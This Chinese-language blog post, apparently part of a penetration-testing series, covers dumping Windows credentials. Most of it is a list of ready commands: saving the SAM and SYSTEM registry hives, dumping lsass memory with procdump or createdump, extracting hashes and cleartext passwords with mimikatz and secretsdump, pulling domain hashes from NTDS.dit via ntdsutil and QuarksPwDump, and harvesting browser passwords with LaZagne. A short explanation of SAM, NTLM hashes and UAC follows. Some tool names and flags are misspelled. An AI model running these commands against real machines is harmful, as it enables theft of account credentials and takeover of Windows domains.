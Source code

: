 # 内网渗透-Windows凭据收集之系统账号密码(9)

  
  
&lt;!--more--&gt;  
## 收集方法  
### 提取SAM数据库的hash  
使用`reg`命令保存注册表键  
```  
reg save hklm\sam c:\sam.hive  
reg save hklm\system c:\system.hive  
```  
### 使用Invoke-NinjaCopy  
```  
Import-Module \invoke\ninjacopy.ps1  
Invoke-NinjaCopy-Path C:\sam.hive  
Invoke-NinjaCopy-Path C:\system.hive  
```  
读取hive文件  
```  
mimikatz.exe &#34;lsadump::sam /system:system.hive /sam:sam.hive&#34; exit  
python secretsdump.py -sam sam.hive -security security.hive -system system.hive LOCAL  
```  
### procdump.exe  
`procdump.exe -ma lsass.exe lsass.dmp`  
获取到内存转储文件后，就可以使用mimikatz来提取密码  
```  
sekurlsa::minidump lsass.dmp  
sekurlsa::logonpasswords  
```  
### createdump.exe  
```  
createdmp.exe -u -f lsass.dmp lsass进程PID号  
查询进程号: tasklist | find &#34;lsass&#34;  
```  
### Get-PassHashes.ps1  
```  
..\GetPassHashes.ps1  
GetPassHashes  
```  
### netpass  
直接运行  
https://www.secpulse.com/archives/tag/QuarksPwDump  
```  
参数解释  
-dhl 导出本地哈希值  
-dhdc 导出内存中的域控哈希值  
-dhd  导致域控哈希值，必须制定NTDS文件  
-db 导出Bitlocker信息，必须指定NTDS文件  
-nt 导出ntds文件  
-hist 导出历史信息，可选项  
-t 导出类型可选默认导出为John类型。  
-o 导出文件到本地  
```  
```  
QuarksPwDump.exe -dhl -o 1.txt \\将导出本地哈希值到当前目录的1.txt  
配合ntdutil工具导出域控密码  
ntdsutil snapshot &#34;active instance ntds&#34; create quit quit  
QuarkPwDump.exe --dmp-hash-domain --ntds0file c:\ntds.dit  
```  
### pwdump7  
`Pwddump7.exe &gt; pass.txt \\读取出hash保存到pass.txt`  
### LaZagne  
```  
laZagne.exe all \\启动所有模块  
laZagne.exe browsers \\启动特定模块  
laZagne.exe browsers -firefox \\抓去特定一个软件的密码，比如抓去火狐  
laZagne.exe all -oN \\-oN表示普通txt  
```  
## Windows账户  
`Windows`用户的密码加密后一般有两种形式:`NTML Hash`和`LM Hash`（从windows Vista和2008开始，微软就取消了LMHash）  
对于域用户，则存储在域控制器的NTDS.dit数据库中(域控NTDS数据库：%SystemRoot%\NTDS)  
### SAM  
本地SAM数据库(安全账户管理器)`%SystemRoot%/system32/config/SAM`，且挂载于`HKLM/SAM`。  
sam文件：用来存储本地用户账号密码的文件的数据库`使用syskey解密HKLM\SAM`  
system文件：用来sam文件进行加密和解密的密钥`读取HKLM\SYSTEM，获得syskey`  
### UAC`[全称是User Account Control(账号控制器)]`  
当我们右键某个可执行文件，选择以管理员身份运行，就会弹出一个对话框，依据当前用户权限的不同，可能是要求我们输入管理员凭据，也可能是询问我们是否允许该程序进行更改。这其实就是UAC。  
ACL(Access Control List)：Windows中所有资源都有ACL，这个列表决定了拥有何种权限的用户/进程能够使用这个资源  
	在开启了 UAC 之后，如果用户是标准用户， Windows 会给用户分配一个标准 Access Token。如果用户以管理员权限登陆，会生成两份访问令牌，一份是完整的管理员访问令牌（Full Access Token），一份是标准用户令牌。一般情况下会以标准用户权限启动 Explorer.exe 进程。如果用户同意，则赋予完整管理员权限访问令牌进行操作。  
经常提到的hash传递失败，有文章解释是kb281997补丁的问题，实际上是UAC的更新的问题。  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-windows%E5%87%AD%E6%8D%AE%E6%94%B6%E9%9B%86%E4%B9%8B%E7%B3%BB%E7%BB%9F%E8%B4%A6%E5%8F%B7%E5%AF%86%E7%A0%819/  

